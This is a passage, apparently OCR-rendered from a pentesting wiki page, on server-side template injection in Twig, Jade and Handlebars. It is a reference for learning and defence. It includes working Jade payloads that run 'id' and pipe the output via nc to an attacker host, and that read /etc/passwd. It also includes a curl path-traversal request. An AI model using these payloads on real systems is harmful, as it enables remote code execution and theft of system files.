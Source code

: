 $output = $twig > render (

"Dear {first_name}",

array("first_name" => $user.first_name)

);

**More information**

-   In Twig and Twig (Sandboxed) section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)​
    

-   ​[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig)​
    

## 

Jade (NodeJS)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jade-nodejs)

- var x = root.process

- x = x.mainModule.require

- x = x('child_process')

= x.exec('id | nc attacker.net 80')

#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}

**More information**

-   In Jade section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)​
    

-   ​[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen)​
    

## 

Handlebars (NodeJS)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs)

Path Traversal (more info [here](https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/)).

curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"profile\":{"layout\": \"./../routes/index.js\"}}' 'http://ctf.shoebpatel.com:9090/'

-   = Error
    

-   ${7*7} = ${7*7}
    

-   Nothing
    
